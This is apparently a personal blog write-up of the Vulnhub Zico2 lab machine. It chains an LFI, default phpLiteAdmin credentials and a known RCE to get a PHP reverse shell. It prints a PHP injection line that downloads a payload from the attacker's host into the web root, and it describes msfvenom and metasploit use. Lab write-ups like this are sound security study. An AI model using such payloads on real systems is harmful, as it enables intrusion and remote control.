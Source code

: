 ```yaml
---
layout: post
title: Vulnhub Zico 2
---
```

In this week, I´ve done another vulnhub machine, in this case [Zico2](https://www.vulnhub.com/entry/zico2-1,210/). In my opinion, it was easier than previous machines, both intrusion and privilege escalation steps. As it´s shown below, the host has two main services running, a SSH service and a web application:

![evidence1]({{ site.baseurl }}/images/zico2_01.png)

Analyzing the web application, a LFI vulnerability could be found in "page" HTTP GET parameter of "view.php":

![evidence2]({{ site.baseurl }}/images/zico2_02.png)

This vulnerability along with default credentials on phpLiteAdmin service (located in the web application in "http://192.168.10.17/dbadmin/") and a [RCE vulnerability in 1.9.3 version of that DBMS](https://www.exploit-db.com/exploits/24044/), could allow us inject and execute PHP code on remote host. Inside of the DBMS, you can find other database called "test_users" with MD5 hashes of "root" and "zico" users (however, once it was decrypted with online resources such us crackstation.net, these credentials were not valid). First of all, I created a PHP payload with msfvenom that then I uploaded into the victim machine using the RCE vulnerability. Due to a problems with meterpreter payload, I used a more simple PHP shell payload, "php/reverse_php":

![evidence3]({{ site.baseurl }}/images/zico2_03.png)

Once it was done, I needed to upload the exploit. To do this, first of all I created a new database, called "hack.php", with only one table and one field. The PHP injection is executed in the default value of that value, that in our case was the next one:

```
<?php function dl($u, $o){$c = file_get_contents($u);file_put_contents($o, $c);}dl("http://192.168.10.12/zico.txt", realpath(realpath(dirname(__FILE__))) . "/zico.php")?>
```
![evidence4]({{ site.baseurl }}/images/zico2_04.png)

For this phase, I tried to use other techniques to upload the file, for example, using the PHP function ["passthru"](http://www.hackingwithphp.com/4/12/0/executing-external-programs) and operative systems commands such "nc" or "wget" but it didn´t work fine. It was strange because using passthru is possible to execute other commands (such "find", "cat" and so on). Anyway, the exploit was correctly uploaded in "/usr/databases" folder, the next step was configuring the handler of metasploit to serve the reverse connection, and the execution through LFI vulnerability of the PHP reverse exploit:

![evidence5]({{ site.baseurl }}/images/zico2_05.png)

